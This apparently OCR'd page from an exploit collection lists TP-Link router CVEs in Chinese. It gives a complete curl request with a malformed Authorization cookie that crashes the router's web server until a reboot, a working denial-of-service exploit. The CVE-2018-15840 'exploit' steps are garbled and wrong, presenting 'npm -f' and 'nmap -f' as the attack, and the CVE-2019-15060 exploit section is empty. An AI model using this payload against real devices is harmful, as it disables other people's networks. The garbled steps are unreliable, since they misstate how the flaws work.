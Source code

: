 


利用


使用“授权”的HTTP“ Cookie”字段设计HTTP请求。将导致httpd服务终止。同样，需要重启路由器以恢复Web界面。我们认为这是“ http_parser_main”中的另一个解析错误



```
curl 'http://tplinkwifi.net/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://tplinkwifi.net/' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Cookie: Authorization;' --compressed

```

参考

https://zh-cn.tenable.com/security/research/tra-2018-27?tns_redirect=true

# 840N
总览参考
https://www.cvedetails.com/cve/CVE-2018-15840/


## CVE-2018-15840
- 拒绝服务

利用

npm -f 192.168.0.1

```
1）如果您来自网络外部。使用angr的IP扫描程序查找路由器的IP或使用路由器的公共IP
2）打开终端
3）ping公共IP
4）从IP访问ping请求时
5）键入“ nmap -f [router ip] ”
```

参考

https://hackingvila.wordpress.com/2019/02/17/tp-link-wireless-n-router-wr840n-buffer-overflow-cve-2018-15840/

## CVE-2019-15060
- 	0.9.1 3.16
- 	代码执行
参考

https://vitor-fernandes.github.io/First-CVE/

利用
